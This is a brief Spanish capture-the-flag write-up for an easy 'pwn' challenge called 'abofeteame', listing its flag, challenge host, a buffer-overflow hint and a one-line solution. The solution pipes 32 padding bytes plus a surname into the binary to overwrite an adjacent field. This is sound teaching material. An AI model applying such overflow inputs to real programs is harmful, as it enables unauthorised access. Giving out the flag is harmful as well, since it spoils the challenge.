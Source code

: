 # Nombre: `abofeteame`
### Dificultad: `fácil`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{b0f_l4_b4se_d3_t0d0_3xpl0it}`

### Descripción:
La reina ha muerto, dejando tras de si un sinnúmero de secretos a los que solo la realeza puede acceder a través de este portal. Podrás hackearlo? `chall.dcctf.xyz:5001`

### Hint 1:
`buffer overflow`

### Solución:
Overflow al buffer de nombre para sobreescribir el apellido.
`python -c 'print("A"*32+"Pérez")' | ./realeza`
